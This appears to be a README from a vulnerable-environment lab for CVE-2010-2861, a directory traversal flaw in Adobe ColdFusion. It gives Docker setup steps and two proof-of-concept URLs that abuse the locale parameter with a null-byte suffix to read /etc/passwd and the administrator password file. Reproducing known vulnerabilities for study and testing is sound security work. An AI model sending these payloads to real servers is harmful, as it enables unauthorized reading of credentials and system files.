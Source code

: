# Adobe ColdFusion Directory Traversal Vulnerability (CVE-2010-2861)


Adobe ColdFusion is a commercial rapid web-application development computing platform created by J. J. Allaire in 1995.

There is a directory traversal vulnerability in the Adobe ColdFusion 9.0.1 and earlier, which allow remote attackers to read arbitrary files via the locale parameter to (1) CFIDE/administrator/settings/mappings.cfm, (2) logging/settings.cfm, (3) datasources/index.cfm, (4) j2eepackaging/editarchive.cfm, and (5) enter.cfm in CFIDE/administrator/.

## Build setup
Download coldfusion-801-lib64.bin from https://www.cfmlrepo.com/ and copy it to install/

## Environment setup

Execute the following command to start Adobe CouldFusion 8.0.1 server:

```
docker compose up -d
```

The server startup may take 1~5 minutes. After that, visit `http://your-ip:8500/CFIDE/administrator/enter.cfm` to see the initialization page, enter the password `admin` to initialize the entire server.

## POC

Read the file `/etc/passwd` via `http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`:

![](1.png)

Read the background administrator password via `http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`:

![](2.png)
